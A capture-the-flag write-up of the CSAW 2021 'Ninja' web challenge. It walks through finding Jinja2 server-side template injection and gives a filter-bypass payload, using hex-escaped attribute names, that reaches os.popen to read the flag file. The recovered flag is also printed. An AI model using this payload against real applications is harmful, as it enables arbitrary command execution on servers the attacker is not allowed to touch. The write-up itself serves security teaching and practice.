 ```yaml
---
title: "Ninja"
subtitle: "CSAW 2021 CTF"
author: GoProSlowYo
date: "2021-09-10"
subject: "Ninja Writeup"
keywords: \[CSAW21, CSAW, CTF, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./logo.png"
logo-width: 3in
toc: true
toc-own-page: true
---
```


# Ninja

Writeup by: [GoProSlowYo](https://github.com/GoProSlowYo) and solved by [jrozner](https://github.com/jrozner)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/ninja/)

----

```text
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Initial Research

There's an input box and after a few seconds of playing with input we find that we have Server `Side Template Injection (SSTI)`.

We entered:

```jinja2
{{7*'5ev3n!+'}}
```

![Server-Side Template Injection](./ssti.png)

## Finding the Right SSTI Payload

There's some filters on the server-side that seem to be filtering some of the payload so we need to bypass it with some special techniques.

You can find great examples and help at the [Filter Bypass section of the PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass):

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('cat flag.txt')|attr('read')()}}
```

We should URL encode that and then send it off. In this example I used [Zeds Attack Proxy](https://www.zaproxy.org/).

![Exploiting Server-Side Template Injection using Zed Attack Proxy and Getting the Flag](./expoit.png)

## Victory

Submit the flag and claim the points:

**flag{m0mmy_s33_1m_4_r34l_n1nj4}**
